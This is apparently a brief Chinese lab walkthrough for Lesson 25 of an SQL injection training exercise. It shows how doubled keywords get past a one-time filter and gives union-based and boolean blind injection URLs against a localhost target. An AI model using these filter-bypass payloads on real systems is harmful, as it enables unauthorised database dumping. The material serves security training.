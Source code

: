 # Lesson-25
```
Bool盲注-,-双写绕过-,-明注
```

本题主要是通过双写来绕过一次性的关键字替换
---
明注
http://127.0.0.1/Less-25/?id=0%27union%20select%201,group_concat(schema_name),3%20from%20infoorrmation_schema.schemata--+

---
盲注

```
http://127.0.0.1/Less-25/?id=1%27%20anandd%201--+
http://127.0.0.1/Less-25/?id=1%27%20anandd%20()--+
```
修改之前关卡的脚本利用盲注即可dump出所有数据

